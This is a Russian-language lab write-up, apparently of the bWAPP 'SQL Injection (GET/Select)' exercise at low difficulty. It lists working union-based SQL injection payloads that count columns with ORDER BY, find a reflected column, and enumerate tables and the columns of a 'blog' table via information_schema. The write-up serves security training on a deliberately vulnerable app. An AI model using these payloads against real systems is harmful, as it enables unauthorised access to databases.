

# SQL Injection (GET/Select)

**(low)**


В приложении есть функция выбора, которая позволяет пользователю выбирать фильмы и просматривать информацию о них. Согласно перехвату Burp, приложение отправляет GET-запрос на файл sqli\_2.php, который, в свою очередь, отображает данные из бд

Потом я использовал payload, чтобы узнать кол-во столбцов
```bash
1+ORDER+BY+8--+- - выдал ошибку
```
```bash
1+ORDER+BY+7--+- - не выдал ничего, а значит столбцов 7
```
выясним, какой столбец можно использовать для получения данных
```bash
999+UNION+SELECT+NULL,"asd",NULL,NULL,NULL,NULL,NULL--+-
```
узнаем, какие таблицы есть в бд, с помощью приведенной ниже полезной нагрузки
```bash
999+UNION+SELECT+NULL,table_name,NULL,NULL,NULL,NULL,NULL+from+information_schema.tables+where+table_schema=database()--+-
```
У нас есть таблица под названием "blog", проверим столбцы внутри нее
```bash
999+UNION+SELECT+NULL,column_name,NULL,NULL,NULL,NULL,NULL+from+information_schema.columns+where+table_name='blog'--+-
```
